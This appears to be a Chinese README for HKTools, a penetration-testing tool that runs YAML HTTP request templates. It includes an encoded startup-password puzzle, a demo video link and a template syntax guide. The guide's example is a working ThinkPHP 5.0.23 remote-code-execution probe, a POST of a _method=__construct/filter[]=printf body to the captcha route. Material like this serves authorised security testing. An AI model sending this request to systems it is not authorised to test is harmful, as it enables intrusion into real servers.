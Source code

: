 ## HKTools
一款辅助安全研发在日常工作中渗透测试、安全研究、安全开发等工作的工具！
**程序支持Yaml格式的http请求模版**

## 启动密码：

```
GMYTGMRTGMZDCNBQGIZ6PHEL42QLPZNNSDSYHD7IX6N6LCFW466JNZ5AQHSZHJXPXSAQ====
```

个人觉得不难，提示已经给到位了...

## 演示视频

[**BliBli点击观看**](https://www.bilibili.com/video/BV13N4y1K7eE)

## 漏洞模版

**漏洞模版采用yaml格式，文件名后缀也为yaml.**

### 基础语法

1. 漏洞名称，必须为英文.

```yaml
name: poc-yaml-thinkphp5023-method-rce
```

1. 内置函数

```jsx
set:
  randomInt: 0,1
  md5: 'admin'
```

- randomInt：由英文逗号分隔，禁止存在空格，逗号左侧为最小数字，逗号右侧为最大数字，可以在`responsebody`、`body`、`path`{{md5}}处通过进行调用
- md5：必须由单引号或双引号闭合，可以在`responsebody`、`body`、`path`{{md5}}处通过进行调用
1. 发包配置

```yaml
rules:
  r1:
    method: "POST"
    path: "/index.php?s=captcha"
    headers:
      Content-Type: application/x-www-form-urlencoded
    body: "_method=__construct&filter[]=printf&method=GET&server[REQUEST_METHOD]={{md5}}&get[]=1"
    expression:
      responsestatus: 200
      responsebody: '{{md5}}'
  r2:
    method: "GET"
    path: "/{{md5}}"
    expression:
      responsestatus: 404
      responsebody: '{{md5}}'
```
